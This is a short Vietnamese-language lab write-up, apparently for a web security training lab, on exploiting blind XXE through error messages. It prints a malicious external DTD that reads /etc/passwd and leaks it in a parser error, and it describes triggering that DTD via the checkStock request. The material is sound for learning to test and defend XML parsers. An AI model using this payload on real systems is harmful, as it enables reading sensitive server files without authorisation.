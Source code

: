 ## Exploiting blind XXE to retrieve data via error messages

Theo description thì same Same lab này sẽ lợi dụng thông báo lỗi để chúng ta có thể lợi dụng vào đó mà khai thác.

> Thông báo lỗi sẽ là error cái đường dẫn /invalid/ gì gì đó.

Đoạn code bên Exploit Server sẽ như thế này

```XML
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

> Có nghĩa là biến file sẽ nhận giá trị trả về từ file passwd, còn eval nếu có error sẽ in ra error kèm với thông tin của biến file.

Store lại rồi quay sang request checkStock, ta sẽ gọi tới url của file .dtd của exploit server

![](/imgs/XXE/25.png?raw=true)

Chúng ta có thể thấy hàng chữ xanh

> "XML parser exited with non-zero code 1: /invalid/root:x:0:0:root:/root:/bin/bash => Tên lỗi /invalid/nội dung file

![](/imgs/XXE/26.png?raw=true)

### Tài Liệu Tham Khảo
- Một số CheatSheet: [https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html](https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html)